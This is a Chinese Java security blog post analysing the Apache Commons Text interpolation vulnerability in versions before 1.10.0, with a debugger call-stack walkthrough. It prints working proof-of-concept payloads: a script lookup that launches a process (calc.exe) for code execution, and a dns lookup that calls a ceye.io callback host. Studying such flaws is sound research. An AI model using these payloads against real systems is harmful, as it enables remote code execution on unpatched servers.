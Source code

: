```yaml
---
title: "Java学习笔记Ⅺ"
slug: "java-study-notes-11"
description: "鉴定网络热门Java CVE | 长期更新"
date: 2022-10-13T23:38:14+08:00
categories: ["NOTES&SUMMARY", "LTS"]
series: ["Java学习笔记"]
tags: ["Java"]
draft: false
toc: true
---
```


## apache commons text

> apache commons text<1.10.0

在2022.9.24官方更新了1.10.0，虽然[release history](https://commons.apache.org/proper/commons-text/changes-report.html#a1.10.0)中没有提到漏洞，仔细看还是有点东西

![image-20221013191723800](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013191723800.png)

也就是说在先前的版本中，`StringSubstitutor.createInterpolator()`可能存在lookup相关的问题，看看官方[doc: StringSubstitutor](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html)  |  [doc: StringLookupFactory](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/lookup/StringLookupFactory.html)

![image-20221013193942819](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013193942819.png)

![image-20221013194321115](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013194321115.png)

更新公告中将[dns](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/lookup/StringLookupFactory.html#dnsStringLookup--)和[script](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/lookup/StringLookupFactory.html#scriptStringLookup--)都移出了默认的Lookups，手搓一个poc

```java
public class cText {
    public static void main(String[] args) {
        String payload1 = StringSubstitutor.createInterpolator().replace("${dns:address|cText.30nux0.ceye.io}");
        String payload2 = StringSubstitutor.createInterpolator().replace("${script:js:new java.lang.ProcessBuilder(\"calc.exe\").start()}");
    }
}
```

![image-20221013213632623](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013213632623.png)

~~这未免也太逊了8~~打个断点看看内部实现

先看能rce的，调用栈如下

```
lookup:70, ScriptStringLookup (org.apache.commons.text.lookup)
lookup:135, InterpolatorStringLookup (org.apache.commons.text.lookup)
resolveVariable:1067, StringSubstitutor (org.apache.commons.text)
substitute:1433, StringSubstitutor (org.apache.commons.text)
substitute:1308, StringSubstitutor (org.apache.commons.text)
replace:816, StringSubstitutor (org.apache.commons.text)
main:7, cText (test1)
```

![image-20221013215231838](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013215231838.png)

dns的那个同理，不再赘述

